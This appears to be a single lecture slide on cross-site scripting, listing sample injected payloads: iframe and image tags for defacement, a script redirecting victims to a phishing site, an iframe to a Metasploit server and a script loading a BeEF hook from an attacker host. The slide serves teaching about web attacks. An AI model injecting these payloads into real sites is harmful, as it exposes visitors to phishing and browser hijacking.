

# Sample Attacks
Site defacement
Insert image tags or iframes
<img src="https://illicit_content" />
<iframe src=https://embedded_site/></iframe>
Redirect victim
<script>window.location.href="http://phishing_site"</script>
Metasploit
<iframe src=http://metasploit/></iframe>
BeEF Hook
<script src="http://beef_server:3000/hook.js"></script>

April 26, 2018
22